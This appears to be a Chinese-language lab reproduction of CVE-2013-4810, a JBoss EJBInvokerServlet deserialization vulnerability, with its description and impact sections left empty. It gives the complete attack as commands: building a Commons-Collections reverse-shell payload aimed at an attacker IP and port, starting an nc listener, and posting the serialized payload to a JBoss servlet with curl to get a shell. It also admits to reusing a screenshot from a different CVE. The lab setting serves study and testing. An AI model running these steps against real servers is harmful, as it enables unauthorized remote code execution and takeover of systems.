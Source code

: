 # （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2983](https://www.zhihuifly.com/t/topic/2983)

# （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle 返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈~），说明接口开发，存在反序列化漏洞

![image](img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](img/778060853ab56211b93d767fa8272659.png)